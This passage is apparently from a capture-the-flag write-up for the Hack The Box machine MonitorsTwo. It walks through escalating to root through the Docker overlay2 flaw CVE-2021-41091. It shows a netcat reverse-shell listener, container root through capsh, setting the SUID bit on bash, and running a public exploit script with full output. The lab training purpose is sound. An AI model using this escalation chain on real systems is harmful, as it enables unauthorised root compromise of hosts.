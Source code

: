 Looking into these CVEs, we find our target is vulnerable to CVE-2021-41091.

There is a public exploit available for this at: https://github.com/UncleJ4ck/CVE-2021-41091

Which lays out the steps we'll need to take to fully compromise MonitorsTwo.

So let's re-trace our steps and get a root shell back in the docker container:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsTwo]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.188] from (UNKNOWN) [10.129.228.231] 44256
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ cd /sbin
cd /sbin
www-data@50bca5e748b0:/sbin$ ./capsh --gid=0 --uid=0 --
./capsh --gid=0 --uid=0 --
whoami
root
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Then set the SUID on bash:

```
root@50bca5e748b0:/tmp# chmod u+s /bin/bash
```

Next we can copy the exploit and change modes on it in our SSH connection:

```
marcus@monitorstwo:/tmp$ chmod +x exp.sh 
```

We can then run the script:

```
marcus@monitorstwo:/tmp$ chmod +x exp.sh 
marcus@monitorstwo:/tmp$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:/tmp$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
```